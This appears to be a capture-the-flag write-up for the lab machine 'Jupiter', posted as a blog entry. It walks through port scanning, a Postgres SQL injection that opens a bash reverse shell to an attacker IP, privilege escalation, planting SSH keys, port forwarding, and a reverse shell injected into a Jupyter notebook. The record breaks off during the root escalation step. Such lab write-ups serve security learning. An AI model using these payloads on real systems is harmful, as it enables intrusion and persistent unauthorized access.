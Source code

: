 ```yaml
---
layout: post
title: "From SQLi to Root"
date: 2023-10-15
---
```


<iframe src=http://10.0.0.1:8000/test.php?x=/etc/passwd width=1000px height=1000px></iframe>

# Enumeration 
IP: 
```shell
10.10.11.233
```
Ports:
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found Grafana Dashboard - `Grafana v9.5.2 (cfcea75916)`

## Reverse Shell

```shell
nc -lvnp 6969
```

### SQL Exploit 
``"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"'"``

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


``ls -ls /tmp/bash``

``./bash -p``

## Copy ssh keys to victim machine
Generate new keys https://linuxhandbook.com/add-ssh-public-key-to-server/

On the Offensive machine - 
```shell
 ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

```shell
python3 -m http.server
```

On the Victim's machine 
```shell
curl -O http://10.10.16.5:8000/id_rsa.pub

#then 

mv id_rsa.pub authorized_keys
```

On the Attackers machine 
```shell
ssh -i id_rsa juno@10.10.11.216
```

Success found user.txt!!!!

---
# Root Flag
Running `cat shadow-simulation.sh`
```bash
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```

# **Pivoting : Juno → jovian**

In user shell I type ``netstat -nptl`` command to list all active port running internally in that Machine.

```shell
ssh -i id_rsa -L 8888:127.0.0.1:8888 juno@10.10.11.216
```
This command will forward that port(8888) in my machine. And I can easily access that. :)

navigating to `localhost:8888` with my browser I found a Jupyter labs notebook


TIp `cat *| grep "token"`

After logging in with the token I was able to edit the python notebook and add a reverse shell.
```python
import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"')
```
Success

## Privilege escalation Jovian -> root
```shell
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```
Find all config.json files
```shell
find / -name config.json 2>/dev/null
```

Found `/usr/local/share/sattrack/config.json`

